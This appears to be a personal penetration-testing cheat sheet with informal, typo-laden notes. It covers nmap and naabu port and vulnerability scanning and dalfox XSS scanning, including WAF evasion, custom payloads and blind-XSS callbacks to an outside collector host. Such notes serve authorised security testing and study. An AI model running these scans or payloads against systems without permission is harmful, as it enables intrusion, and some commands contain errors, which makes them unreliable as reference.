  - nmap -p- -T3 --max-rtt-timeout 500ms -Pn -6 -A --traceroute -iL host_list.txt [-il: for list of tagets want to scan] [-Pn: for Treat all hosts as online (skip host discovery/httpx)]
 -  --resume  --min-parallelism/max-parallelism --min-hostgroup/max-hostgroup [i dont know much but here some useful thing u can try in future]
 - nmap target.com -p T:443 U:53                               [specify tcp and udp ports]
 - if u want to resume the progress just run cmd again not it will checks before continuing the scan and resume.

for script:-
nmap -p- --script=vuln $IP
nmap -p- -sC -sV $IP --0pen
nmap -n -sV --script "ldap* and not brute" $ip  [star show all ldap script run but not go for brute force creds]
nmap --script ftp-* http://hackxpert.com   [star show all ftp script run]
nmap --script discovery -sV $ip
nmap --script hostmap-crtsh.nse http://domain.com [extract subdomains]
nmap --script=* [run all scripts for scan]
https://x.com/cyb_detective/status/1668912402270699520/photo/1

@GodfatherOrwa : naabu -list sub.txt -top-ports 1000 --exclude-ports 80,443 -o file [ after use vuln script and exploit]
                  : naabu -list subdomain-list.txt -p - -exclude-ports 80,443,8080,22,25 -o result.txt

----------------------
dalfox
 - its not compulsory that every time it show same result
 - [v] : execute successfully
 - [G] : for sql error
 - [w] : it found param but not payload to inject give some time to bypass bcs reflected somewhere
 - [I] : for investigating
 - zinho server
usage : dalfox [mode] [target] [flags]
 - dalfox url domain.com OR http://domain.com > output.txt
 - dalfox file url.txt --no-colour > output.txt
 - dalfox file urls.txt --user-agent list.txt > output.txt
 - dalfox file url.txt --waf-evasion > output.txt [speed worker=1 and delay=3 by using waf param]
 - dalfox server [just typing this, it work like burp collabrator tool, it give u a link to inject {img src=http://127.0.0.1:6565 onerror=alert(1)}]
 - dalfox file urls.txt -b 127.0.0.1:6565 > output.txt [-b for for blind payload]
 - dalfox file url.txt --custom-payload my_payload.txt > output.txt
 - dalfox file url.txt --deep-domxss > output.txt
 - dalfox file url.txt --follow-redirects > output.txt
 - dalfox file url.txt --only-discovery > output.txt [only param analysis like kxss,gxss , it skip-xss-scanning]

 dalfox file params-result.txt -b xss.report/c/enterlectury --proxy http://127.0.0.1:8080 -o dalfox-result.txt | tee dalfox-output.txt [i use ]

 dalfox file 2.1 --no-colour --user-agent -b --deep-domxss --follow-redirects --only-discovery | tee -a dalfox.txt [my useful cmd]

 dalfox pipe -b <you blind xss> — custom-payload <your payload> -w 300 — multicast — mass — only-poc -o xss_vulns.txt [medium se uthaye h]
